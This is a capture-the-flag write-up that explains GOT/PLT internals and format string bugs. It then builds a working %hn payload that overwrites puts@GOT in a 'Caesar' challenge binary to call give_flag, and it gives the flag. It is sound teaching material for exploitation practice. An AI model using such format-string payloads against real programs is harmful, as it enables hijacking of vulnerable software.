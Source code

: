 # Caesar (Binary Exploitation, 300 points)

This writeup requires some background explanation. [Click here to skip that and get straight to the writeup!](./README.md#writeup)

## What are we trying to do? How does this exploit work?

Our objective is to call `give_flag`. However, there are no buffer overflows to exploit here. Instead, we have to turn to a **GOT overwrite**. Now, I'll provide a quick primer here, as usual, but to really learn about the GOT/PLT table, I suggest visiting these links:


* [LiveOverflow GOT/PLT Table Explanation](https://www.youtube.com/watch?v=kUk5pw4w0h4)
* [Grant Curell - What is the GOT?](http://grantcurell.com/2015/09/21/what-is-the-symbol-table-and-what-is-the-global-offset-table/)
* [!HELPFUL! PicoCTF 2017 config_console writeup by \_py](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920)

Most programs are compiled *dynamically*, which means that the executable uses your machine's local libraries, instead of packing its own. Because referencing an absolute memory location is impossible when compiled dynamically, *offsets* to functions are stored in a Global Offset Table (GOT), where an absolute memory address can be calculated by finding (base) + (GOT_offset). 

While the program is running, if a function `func` is called, the compiler will translate this into a call `func@plt`. Instead of jumping to the unknown location of `func`, a short code stub at `func@plt` either *points to the GOT entry for func* or resolves the location of `func` through the GOT entry.

Therefore, if we can overwrite the GOT entry for a function, when this function is called we can redirect output to a location of our choosing, and therefore call `give_flag`!

-----

The other half of this exploit is a **format string exploit**. Helpful links provided below:

* [StackOverflow Explanation](https://stackoverflow.com/questions/7459630/how-can-a-format-string-vulnerability-be-exploited)
* [Syracuse University Slides on Format String (diagrams!)](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf)
* [Code Arcana: Format String Exploits](http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
* [!HELPFUL! PicoCTF 2017 config_console writeup by \_py](https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920)

Recall that arguments for method calls are placed on the stack right before they are called, e.g. `printf("%s", buf)` will cause `%s` and `buf` to be pushed onto the stack, then popped once `printf` is called. The important line in this exploit is the improper use of `printf(input)`. If an attacker were to input `%x %x %x %x %x` as a string, **a single** argument of `%x %x...` will be pushed onto the stack. However, printf is *dumb*, and when it gets the string `%x...`, it will think it has *five* inputs, and **pop five arguments off the stack, leaking arbitrary stack data**.

Printf also has the `%n` specifier, which will write <number of bytes before> to the address listed by %n. For example, if you have `printf("<0x1337 bytes>%n", loc_in_memory);`, \*loc_in_memory will contain the value 0x1337 after the printf call.

We now have both a read primitive (read stack data) and a write primitive (write anywhere). Let's use this to construct our exploit.

## Writeup

Again, we are provided source code for this problem, so let's investigate that first. This program is longer, so I have truncated it to the most important parts.

```
<snip>
void caesar() {
<snip>

    printf("Enter text to be encoded: ");
    fgets(input, 250, stdin);

<snip>

    //compared to other printf calls, this is *different* and therefore suspicious!
    printf("\nOriginal input:");
    printf(input);
	
	<snip>
}

void give_flag(char* s) {

<snip>
```

Aha! There is a malformed printf call, allowing us to execute a format string attack. First, let's locate our input on the stack (the reasoning behind this will become apparent later).

![images/term1.png](images/term1.png)

Here's proof that printf is leaking values from the stack :) We're specifically looking for values 0x41414141, 0x42424242, and so on because *that's what we put in as input* before leaking data. Near the end, we count that "41414141" is the 31st input on the stack. We can verify this by outputting only the 31st input on the stack with `%31$x`. **Note that '$' is a special character in a shell, so it must be escaped with a backslash '\\' every time it is used in a script!** As input, however, it is treated as raw text.

![images/term2.png](images/term2.png)

Great! As we recall from the above articles, we can now write *anything we want* to address 0x41414141. Let's replace that with the GOT entry for a specific function...but which function? Some function has to be called after this malformed printf call to jump to give_flag, after all.

```
* Code from https://stackoverflow.com/a/16374718 */
    while (input[i] != '\0') {
        if (input[i] >= 'A' && input[i]<='Z') {
            char newletter = input[i] - 'A';
            newletter += shift;
            newletter = newletter % 26;
            input[i] = newletter + 'A';
        }
	if (input[i] >= 'a' && input[i]<='z') {
            char newletter = input[i] - 'a';
            newletter += shift;
            newletter = newletter % 26;
            input[i] = newletter + 'a';
        }
        i++;
    }
    printf("Ciphered with a shift of %d: %s", shift, input);
    printf("\nThank you for using the Caesar Cipher Encoder! Be sure to like, comment, and subscribe!\n");
}
```

As it turns out, the only calls that happen after our input are *printf* and *exit*. If we overwrite printf, we'd end up breaking the printf call in give_flag() and never be able to get our flag:

```
    fscanf(flagFile, "%s", flag);
    printf("Here's a flag: %s\n", flag);
```

We could also overwrite exit(), but the function I chose to overwrite was puts(). "What puts()?" you might ask. "I only see printf!"

**When printf is called with only a string as input (not a variable!), it gets optimized to puts().**

In fact, this harkens back to [HSCTF 2017's Never Say Goodbye :P](https://jakobdegen.gitbooks.io/hsctf-4-writeups/content/solutions/exploitation/400-never-say-goodbye.html) We can verify this by looking at the disassembly with `objdump -d caesar`:

![images/term3.png](images/term3.png)

We are correct! The second printf() call gets optimized to puts() when run by the machine. Let's overwrite the GOT entry of puts() so that when puts() is called, instead of redirecting the program to puts() in libc, it'll redirect flow to give_flag. We can find the GOT entry location by running `objdump -R caesar | grep puts`.

```
0804a020 R_386_JUMP_SLOT   puts@GLIBC_2.0
```

is our output. One last thing: the specificer "%<number>x" in printf will pad its input to <number> characters. For example, if we type "A%2005x", the program will take the input "A" and pad it with 2005 bytes. Now, let's begin constructing our exploit! Right now, our exploit looks like this: `\x20\xa0\x04\x08%134514794x%31$n`, where we write the value **0x8048862 (address of give_flag)** bytes to the 31st item on the stack, which is the address of puts@got.

A problem immediately arises. We are writing over **134 million** characters to stdin! How can we cut this down? Solution: *use %hn instead of %n*. %hn writes to a half word, e.g. 0x4344 instead of 0x41424344. By doing this, we can split up our data into 0x804 and 0x8862, much more reasonable numbers. Of course, this means that we have to write directly to the 4 higher bytes of the GOT entry, since we can only write 4 bytes.

If a memory location 0x41414141 contains value 0x41424344, then taking the halfword at 0x41414141 will return 0x4344. However, taking the value at 0x414141*43* will literally shift the memory over 2 bytes, and will return 0x4142.

Let's split up our input in this fashion. Our payload now looks like `\x22\xa0\x04\x08\x20\xa0\x04\x08%2044x%31\$hn%32870x%32\$hn`. To break this down:

	1. `\x22\xa0\x04\x08\x20\xa0\x04\x08`: We place the addresses we want to write to on the stack. In this case, the higher 2 bytes of puts@GOT are at the 31st position on the stack, and the lower 2 bytes are at the 32nd position.
	2. `%2044x%31\$hn` Note that *we have written 8 bytes already with our addresses!*. This means we have 0x0804 - 8 characters left to write, or 2044 characters. We pad these in with `%2044x`, then write this halfword to the higher 2 bytes of puts@GOT.
	3. `%32870x%32\$hn` Our first input totaled 0x804 characters total, so we need 0x8862 - 0x0804 more characters, or 32870. We pad these, then write to the two lower bytes of puts@GOT.

Now, when we call puts() at the very end, we should instead redirect to give_flag! Let's test it out.

```
0x0804885a <+575>:	push   $0x8048a6c
0x0804885f <+580>:	call   0x80484c0 <puts@plt>
```

Let's place a breakpoint with `b *0x0804885a`, right before our hijacked puts() call, and step through with `si` to see where we get taken.

![images/term4.png](images/term4.png)

Success! We can see that once we step to puts@plt, we redirect to our "GOT entry", which actually points to give_flag! Let's try it out through netcat.

![images/term5.png](images/term5.png)

Whoops! We forgot to provide input for the Caesar cipher itself. Append a "\n0\n" to the payload to simulate pressing enter after your input with a shift of 0:

![images/sol.png](images/sol.png)

#### Flag: `flag{printered_lol}
